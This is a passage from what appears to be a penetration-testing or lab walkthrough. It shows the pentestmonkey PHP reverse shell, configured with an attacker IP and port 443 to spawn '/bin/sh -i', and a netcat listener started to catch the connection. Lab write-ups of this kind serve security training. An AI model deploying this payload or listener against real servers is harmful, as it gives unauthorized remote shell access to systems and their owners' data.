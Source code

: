 ```bash
shell.phtml                                                100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0s      

2025-01-06 23:39:45 (48.2 MB/s) - ‘shell.phtml’ saved [5491/5491]
```
{% endraw %}

<br />
Edit the shell to update the IP address and the port for whatever you intend to use on your attack machine.

{% raw %}
```php 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

<snip>

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.4.119.29';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<snip>

?> 
```
{% endraw %}

<br />
Start a listener that listens on the port specified in the payload.

{% raw %}
```bash 
┌──(sec㉿kali)-[~]
└─$ sudo nc -nlvp 443                                   
[sudo] password for sec: 
listening on [any] 443 ...
```
{% endraw %}
